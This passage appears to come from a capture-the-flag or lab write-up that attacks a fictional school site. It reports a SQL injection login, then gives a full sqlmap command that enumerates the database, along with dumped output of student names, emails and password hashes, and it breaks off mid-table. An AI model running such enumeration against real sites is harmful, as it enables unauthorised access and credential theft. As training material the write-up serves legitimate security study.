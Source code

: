 13) With the successful [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection), we can see that we are logged in as `Malcolm`, with his personal data such as his class `CY2304U` & email `malcolm@potato-school.com`. Also, we can see various learning resources but are unable to access them (We will keep them in mind for now):

    - `Chapter 1: SQL Map`
    - `Chapter 2: Local File Inclusion`
    - `Chapter 3: Command Injection`
    - `Chapter 4: Privilege Escalation`
    - `Chapter 5: Port Knocking`

    Lastly, we can see a hyperlink in the webpage `Roundcube Webmail`, which opens a web mail application.

    ![Roundcube_Webmail_Login_Page](Images/Roundcube_Webmail_Login_Page.png)

    Since I managed to access `Malcolm`'s account, but am unable to access any accounts with invalid credentials, I assumed that there could be a database in the backend.

15) Using [SQLMap](https://github.com/sqlmapproject/sqlmap) to enumerate data from the database with the following command: `sqlmap -u https://potatos.potato-school.com/login.php --dbs --forms -a`, I received the following output:

    ```
    Database: school_db
    Table: students
    [12 entries]
    +----+---------+----------------------------+----------+--------+----------------------------------+
    | id | class   | email                      | name     | gender | password                         |
    +----+---------+----------------------------+----------+--------+----------------------------------+
    | 1  | CY2304U | malcolm@potato-school.com  | malcolm  | Male   | 98c5fb0477da411c710a07921cade8cb |
    | 2  | CY2304U | jaeger@potato-school.com   | jaeger   | Male   | af0f0a77d092493ad15cf8e5e3bca6ea |
    | 3  | CY2304U | weile@potato-school.com    | weile    | Male   | 1828e186a1dfb3d9b49e2360674e901c |
    | 4  | CY2304Q | jasmine@potato-school.com  | jasmine  | Female | 1a684e4feecf6e4812ea41f700589b5e |
    | 5  | CY2304Q | charlene@potato-school.com | charlene | Female | 2b7f195f888bff306af886101c98ce4f |
    | 6  | CY2304Q | jasper@potato-school.com   | jasper   | Male   | 7810aaa2b13020b68194d3eca71c4d27 |